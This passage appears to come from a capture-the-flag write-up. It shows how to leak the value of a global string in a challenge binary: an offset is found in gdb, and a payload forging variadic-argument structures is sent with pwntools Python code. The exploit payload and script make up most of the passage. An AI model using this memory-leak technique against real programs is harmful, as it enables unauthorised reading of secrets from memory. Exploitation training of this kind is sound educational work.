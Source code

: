 *Enter the token found in the globalStr array on exploit.us.*

With the global address leaked in Question 2, the only thing left for us to do is leak the value in `globalStr`. We also already know how to read an arbitrary value! The only thing we need is to calculate our offset from the leaked address of `player` to `globalStr`. Switch your python script to `DEBUG` mode, uncomment the `IPython.embed()` at the end of the script, and run it one last time to find our offset in gdb.

Use `c` until both the name and player addresses are printed. In my case, the player address leaked is `0x560391a6e1f8` and the address of globalStr is `0x560391a6e090` (retrieved with `p & globalStr`). So our offset will be `0x560391a6e090 - 0x560391a6e1f8 = -360`. Our next payload will be the following, where LA is the Leaked Address of the player name and LAG is the Leaked Address of the Global player struct.

| Payload | Comment|
| :-----------: | :-: |
| help | To trigger printing |
| A A A A A A | Six bytes of space |
| A A A A | Four bytes for gp_offset, must be some value greater than 40 |
| A A A A | Four bytes for fp_offset |
| LA + -80 | overflow_arg_area, this points to reg_save_area |
| LAG + -360 | reg_save_area, this points to the address of globalStr |
| 0x00000001 | Argument n, the number of variadic args |
| 0x0a 0x00 | Two bytes of space used by newline and 0x00 |

Our python code then will be:

```python
...previous code here...

payload = b"help" + b'A' * (6 + 4 + 4)
payload += p64(address + -80)
payload += p64(playerAddress + -360)
payload += p32(0x01)

p.sendline(payload)  # Send the payload

p.recvuntil(b"Action: \n")  # Consume everything printed so far

print(b"Token is " + p.recvline())

p.sendline("run")  # Gracefully end the program

```

Like before, copy this into your file and into IPython. The following screenshot shows it worked in IPython, printing the placeholder token in our local version of the code.
